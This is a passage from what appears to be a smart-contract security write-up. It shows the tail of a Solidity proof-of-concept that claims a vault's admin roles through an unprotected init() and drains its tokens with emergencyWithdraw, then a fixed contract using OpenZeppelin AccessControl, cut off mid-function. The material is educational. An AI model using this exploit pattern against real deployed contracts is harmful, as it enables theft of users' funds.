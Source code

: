 ```solidity
        // 1) Call init() to claim admin/manager roles (if not already initialized)
        vault.init(address(this), address(this));

        // 2) Optional: call setAdmin/setManager if needed (both public/vulnerable)
        // vault.setAdmin(address(this));
        // vault.setManager(address(this));
        
        // Approve the vault to spend our tokens (if needed for a different attack,
        // not strictly necessary for this one as we are draining from the vault)
        
        // 3) Drain the vault - funds are transferred to the vault's `treasury`
        uint256 vaultBalance = mockToken.balanceOf(address(vault));
        vault.emergencyWithdraw(address(mockToken), vaultBalance);

        // 4) If attacker controls the `treasury` address, they now own the tokens.
        // If not, they may still have succeeded in removing funds from vault into treasury.
    }
}
```

---

## Fixed Contract with OpenZeppelin

> [\!NOTE]
> This is how a properly secured contract should be written. It uses OpenZeppelin’s `AccessControl` to enforce strict, role-based permissions.

### `FixedRedRoomVault.sol`

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

import {AccessControl} from "@openzeppelin/contracts/access/AccessControl.sol";
import {ERC20} from "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import {Initializable} from "@openzeppelin/contracts-upgradeable/proxy/utils/Initializable.sol";

contract FixedRedRoomVault is ERC20, AccessControl, Initializable {
    bytes32 public constant ADMIN_ROLE = keccak256("ADMIN_ROLE");
    bytes32 public constant MANAGER_ROLE = keccak256("MANAGER_ROLE");

    address private treasury;

    constructor(string memory name, string memory symbol) ERC20(name, symbol) {}

    /// @dev Initialization function using OpenZeppelin's `Initializable` pattern.
    function initialize(address defaultAdmin, address initialManager, address initialTreasury) public initializer {
        _grantRole(DEFAULT_ADMIN_ROLE, defaultAdmin);
        _grantRole(ADMIN_ROLE, defaultAdmin);
        _grantRole(MANAGER_ROLE, initialManager);
        treasury = initialTreasury;
    }

    /// @notice Restricts admin assignment to only existing admins
    function setAdmin(address _newAdmin) external onlyRole(ADMIN_ROLE) {
        _grantRole(ADMIN_ROLE, _newAdmin);
    }

    /// @notice Restricts manager assignment to only existing admins
    function setManager(address _newManager) external onlyRole(ADMIN_ROLE) {
        _grantRole(MANAGER_ROLE, _newManager);
```